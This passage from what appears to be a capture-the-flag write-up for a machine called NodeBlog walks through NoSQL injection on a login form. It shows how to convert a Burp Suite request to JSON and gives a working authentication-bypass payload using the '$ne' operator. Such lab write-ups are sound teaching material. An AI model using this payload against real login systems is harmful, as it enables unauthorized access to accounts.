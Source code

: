 I tried some of the NoSQL authentication bypass payloads from the following site: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

I used JSON format payloads given in the above mentioned site, since its more reliable and easy to format.

![Untitled 7.png](NodeBlog/assets/Untitled%207.png)

To send the data in JSON format in burpsuite, you have to change the value of the `content-type` header to `application/json`. Now change the data from “`user=admin&password=admin`” to JSON format:

```
{
    "user": "admin",
    "password": "admin"
}
```

And make sure the request works as before.

![Untitled 8.png](NodeBlog/assets/Untitled%208.png)

  

Now use the following payload to check whether the password field is vulnerable to NoSQL.

payload:

```
{
    "user": "admin",
    "password": {
        "$ne": null
    }
}

// Here $ne means not equal to. This payload makes the login condition to TRUE 
// if the password is not equal to "null". You can replace any value instead of 
// null in this secenario.
```
